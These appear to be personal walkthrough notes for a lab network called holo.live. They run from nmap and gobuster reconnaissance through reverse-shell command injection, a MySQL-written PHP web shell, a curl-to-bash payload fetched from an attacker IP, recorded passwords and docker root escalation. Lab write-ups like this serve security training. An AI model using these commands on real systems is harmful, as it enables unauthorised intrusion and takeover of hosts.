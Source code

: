 > route   # command on local machin after vpn connect
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         192.168.28.2    0.0.0.0         UG    100    0        0 eth0
10.50.103.0     0.0.0.0         255.255.255.0   U     0      0        0 tun0
10.200.107.0    10.50.103.1     255.255.255.0   UG    1000   0        0 tun0
192.168.28.0    0.0.0.0         255.255.255.0   U     100    0        0 eth0
find out which hosts are available by doing a quick pingsweep 

> sudo nmap -sn -n 10.200.107.0/24 192.168.100.0/24 -oA Ping-Sweep
> 10.200.107.33
> 10.200.107.250
> # The -sn flag means disable port scanning, as I’m only interested in the available hosts, not the specific ports at the moment.
> The -n flag means do not do a DNS lookup. This speeds up the scan.

> sudo nmap -sS 10.200.142.33 10.200.142.250 -v -oA Initial-Scan-Subnet1-Hosts
> sudo nmap -sS -p- 10.200.142.33 10.200.142.250 -v -oA All-Ports
> sudo nmap -sV -sC -A 10.200.142.33 -p 22,80,33060 -oA 10.200.142.33-Script-Scan
> sudo nmap -sV -sC -A 10.200.142.250 -p 22,1337 -oA 10.200.142.250-Script-Scan

> 10.200.107.33
> Port - 22. 80
> 10.200.107.250
> Port - 22, 1337

gobuster dns -u holo.live -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 2

gobuster dir -u www.holo.live -w ~/Documents/Tools/SecLists/Discovery/Web-Content/big.txt -t 2 -o www_subdir.txt -x php,html,htm,txt,bak,zip
gobuster dir -u dev.holo.live -w ~/Documents/Tools/SecLists/Discovery/Web-Content/big.txt -t 2 -o dev.holo.live -x php,html,htm,txt,bak,zip
gobuster dir -u admin_subdir.txt_ -w ~/Documents/Tools/SecLists/Discovery/Web-Content/big.txt -t 2 -o admin_subdir.txt -x php,html,htm,txt,bak,zip

admin.holo.live
admin:DBManagerLogin!
admin.holo.live/dashboard.php?cmd=nc+-e+/bin/sh+10.50.103.67+4443
mysql -u admin -p -h 192.168.100.1
Using password: !123SecureAdminDashboard321!
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
curl 192.168.100.1:8080/shell.php?cmd=nc+-e+/bin/sh+10.50.103.67+4445

curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.50.103.67%3A80%2Frev.sh%7Cbash%20%26'
/usr/bin/docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh

ssh-keygen -t rsa # in local

